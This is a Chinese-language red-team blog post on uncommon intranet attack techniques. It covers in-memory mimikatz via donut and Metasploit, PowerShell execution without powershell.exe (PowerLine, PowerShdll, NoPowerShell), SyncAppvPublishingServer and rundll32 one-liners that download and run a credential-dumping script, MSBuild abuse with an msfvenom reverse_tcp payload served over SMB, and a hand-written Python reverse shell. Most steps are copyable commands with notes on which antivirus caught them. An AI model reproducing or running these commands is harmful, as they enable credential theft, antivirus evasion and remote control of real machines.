奇技淫巧
介绍一些在内网中罕见的攻击方式
1.交互式内存加载
Msf+donut交互式执行内存
msf得到一个会话

生成一个bin文件
1 | ./donut -f /root/webtools/BypassAntiVirus/mimikatz/mimikatz_trunk_2.2.0/x64/mimikatz.exe -a 2 -o /tmp/payload.bin |
再使用刚刚生成的bin文件
1 | msf5 exploit(multi/handler) > use post/windows/manage/shellcode_inject |
但是出错

因为我们生成木马是32位，机器是64位，使用将进程迁移到64的进程即可。
执行会得到一个交互式的mimikatz环境

这种方法在x86的机器上比较方便。
2.无power shell运行power shell
1.powerline
PowerLine是一款由c#编写的工具，支持本地命令行调用和远程调用，可以在不直接调用PowerShell的情况下调用PowerShell脚本.
优点：1.自动识别win7、win10系统 2.使用方便,无需复杂的ide 3.自动xor编码
下载地址： https://github.com/fullmetalcache/PowerLine
首先将其项目放置目标机器，执行其bat文件（cmd下也可）

然后在UserConf.xml文件中填写你所需要调用的powershell脚本的地址，默认自带powerup、powerview、Mimikatz等，只要按照他给定的格式加入你的ps脚本地址即可

加入完成以后，运行PLBuilder.exe进行构建，构建过程中，被360杀了。。

一般AV只是检测PS发出的恶意请求，但由于在powerline中，请求是由powerline发出的，便绕过了一部分AV，但是缺点也是很明显，就是可扩展性太差，所有的功能依赖于配置文件…
2.powershdll
这个工具主要使用dll去运行powershell而不需要去连接powershell.exe,所以具有一定的bypassAV能力，当然它也可以在这几个程序下运行rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe或者运行作者给的exe
下载地址： https://github.com/p3nt4/PowerShdll
1.exe用法
进入交互模式：powershdll.exe -i,获得了一个交互式的PS环境，可执行任意的powershell命令
在交互式模式下唯一要注意的就是，你输入的内容不能过长，否则会出现问题
2.dll用法
cmd下运行
1 | rundll32 PowerShdll.dll,main . { iwr -useb https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1 } ^| iex; |
被杀。。。
3.Nopowershell
NoPowerShell是用C＃实现的工具，它支持执行类似PowerShell的命令，同时对任何PowerShell日志记录机制都不可见。同时也提供了CS下的cna脚本。
优点：执行隐秘、功能强大、扩展简单
即使不熟悉PS命令也可以使用cmd命令来代替PS命令，例如(使用ping来代替Test-NetConnection)
下载地址：https://github.com/bitsadmin/nopowershell.git
直接运行便会输出它的版本和支持的命令

过程360无拦截
dll版会被秒杀
cs下稳定
4.SyncAppvPublishingServer
SyncAppvPublishingServer是win10自带的服务，有vbs和exe两个版本 默认存放在C:\Windows\System32下面
弹出计算器：C:\Windows\System32\SyncAppvPublishingServer.vbs “Break; Start-Process Calc.exe ”

或者
1 | C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; iwr http://192.168.1.149:443" |

也可以去远程下载执行一些ps脚本就像下面这样：
1 | SyncAppvPublishingServer.exe \" Break; (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1','$env:USERPROFILE/1.ps1'); Start-Process '$env:USERPROFILE/1.ps1' -WindowStyle Minimized;" |
5.调用Msbuild.exe
MSBuild是Microsoft .NET框架的一部分，是受信任的Windows二进制文件，可用于在未安装Visual Studio的环境中构建应用程序。从安全的角度来看，应将此二进制文件从系统中删除或由应用程序白名单解决方案阻止，以防止执行存储在具有以下扩展名的文件中的任意代码
MSBuild是.Net框架中包含的工具，用于自动化创建软件产品的过程，包括编译源代码，打包，测试，部署和创建文档。
该二进制文件执行本地存储在系统上的代码的能力可能导致逃避现有的安全控件（组策略，应用程序白名单等），从而阻止PowerShell或其他依赖PowerShell的类似工具。但是，不再需要MSBuild执行代码，因为可以使用.NET程序集，该程序集将从远程位置（UNC路径）调用恶意的.csproj。该技术不会留下任何痕迹，因为它不会接触磁盘，并且代码已注入到合法的Windows进程Internet Explorer中。
Msbuild依赖于.csproj文件，该文件具有XML语法，包含了.NET构建过程中的结果，类似于unix中的make，代码如下：
1 | <Project ToolsVersion="4.0" |
test.ps1的内容如下：
1 | echo "hello from powershell-less" |
执行test.ps1，效果：

github上类似的项目：https://github.com/Cn33liz/MSBuildShell.git，执行完可以获得一个交互式的ps
3.msbuild_without_msbuild
不使用msbuild调用msbuild来构建程序的方法。
生成一个msf的payload并编码
1 | msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000 base64 -i /root/payload64.bin > payload64.txt |
然后使用下面的方法得到一个dll文件
1 | C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs |
得到dll后将msbuildapicaller.cs 的第60行替换成你smb服务器的程序地址..
smb服务器可以使用impacket开启
1 | impacket-smbserver share `pwd` |
替换msbuildapicaller.csproj中的shellcode与dll地址

然后编译
1 | C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs |
得到exe文，件，可以使用Assembly MSBuildApiCaller.exe去执行
4.自写shell
编写反弹shell的原理

简单的客户端，服务端
1 | import socket |
1 | import socket |
一些常用的实现通信的函数
1 | recv() #接受TCP数据 |
需要一个能够实现执行命令并返回会话的模块：subprocess
1 | import subprocess |
简单的例子
1 | import socket |
可以直接执行，也可以打包为exe执行：pyinstaller -F myfile.py
文章参考：
https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html
https://lengjibo.github.io/psbypass/
https://lengjibo.github.io/msbuild/
https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/